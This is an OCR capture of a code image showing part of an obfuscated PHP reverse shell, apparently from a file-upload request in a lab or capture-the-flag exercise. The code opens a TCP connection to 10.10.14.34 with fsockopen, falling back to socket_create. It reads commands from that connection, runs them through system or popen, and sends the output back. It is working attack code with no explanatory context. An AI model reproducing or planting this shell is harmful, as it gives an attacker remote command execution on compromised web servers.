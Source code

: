 ```
       $o=NULL;
       if(is_resource($fp)){
         while(!feof($fp)){
           $o.=fread($fp,1024);
         }
       }
       @pclose($fp);
     }else
     if($EPWc('system')and!$JZlmOv('system',$dis)){
       ob_start();
       system($c);
       $o=ob_get_contents();
       ob_end_clean();
     }else
     {
       $o=0;
     }
  
       return $o;
     }
   }
   $nofuncs='no exec functions';
   if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
     $s=@fsockopen("tcp://10.10.14.34",$port);
     while($c=fread($s,2048)){
       $out = '';
       if(substr($c,0,3) == 'cd '){
         chdir(substr($c,3,-1));
       } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
         break;
       }else{
         $out=CkLhPZUPboOwI(substr($c,0,-1));
         if($out===false){
           fwrite($s,$nofuncs);
           break;
         }
       }
       fwrite($s,$out);
     }
     fclose($s);
   }else{
     $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
     @socket_connect($s,$ipaddr,$port);
     @socket_write($s,"socket_create");
     while($c=@socket_read($s,2048)){
       $out = '';
       if(substr($c,0,3) == 'cd '){
         chdir(substr($c,3,-1));
       } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
         break;
       }else{
         $out=CkLhPZUPboOwI(substr($c,0,-1));
         if($out===false){
           @socket_write($s,$nofuncs);
           break;
         }
       }
       @socket_write($s,$out,strlen($out));
     }
     @socket_close($s);
   }
 
-----------------------------6880877471789511041406832871
```